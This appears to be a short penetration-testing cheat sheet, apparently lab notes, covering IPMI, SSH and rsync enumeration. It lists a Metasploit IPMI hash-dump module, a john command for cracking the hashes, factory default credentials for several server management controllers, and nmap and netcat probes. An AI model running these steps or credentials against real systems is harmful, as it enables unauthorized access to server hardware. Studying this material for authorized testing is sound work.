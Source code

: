 Metasploit dump IPMI hashes:
```shell
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

Crack IPMI hash with john:
```shell
john --fork=8 --incremental:alpha --format=rakp hash
```

### Default Credentials:

**HP Integrated Lights Out (iLO)**
`Administrator:<factory randomized 8-character string>`

**Dell Remote Access Card (iDRAC, DRAC)**
`root:calvin`

**IBM Integrated Management Module (IMM)**
`USERID:PASSW0RD (with a zero)`

**Fujitsu Integrated Remote Management Controller**
`admin:admin`

**Supermicro IPMI (2.0)**
`ADMIN:ADMIN`

**Oracle/Sun Integrated Lights Out Manager (ILOM)**
`root:changeme`

ASUS iKVM BMC
`admin:admin`

# SSH
---
ssh-audit:
```shell
./ssh-audit.py 10.129.14.132
```

change authentication method:
```shell
ssh -v cry0l1t3@10.129.14.132 -o PreferredAuthentications=password
```

# Rsync
---

Scan for rsync:
```shell
sudo nmap -sV -p 873 127.0.0.1
```

Probe for accessible shares:
```shell
nc -nv 127.0.0.1 873
```
